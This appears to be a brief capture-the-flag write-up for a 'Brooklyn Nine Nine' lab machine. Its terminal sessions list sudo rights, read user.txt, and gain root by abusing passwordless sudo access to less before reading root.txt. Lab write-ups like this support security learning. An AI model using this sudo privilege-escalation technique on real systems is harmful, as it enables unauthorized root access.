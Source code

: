 #### User flag

```bash
holt@brookly_nine_nine:~$ sudo -l 
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

```bash
holt@brookly_nine_nine:~$ cat /home/holt/user.txt 
```
#### Root flag

```bash
jake@brookly_nine_nine:~$ sudo -l 
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
jake@brookly_nine_nine:~$ sudo /usr/bin/less /etc/profile
root@brookly_nine_nine:~# id
uid=0(root) gid=0(root) groups=0(root)
root@brookly_nine_nine:~# cat /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: xxxx

Enjoy!!
```
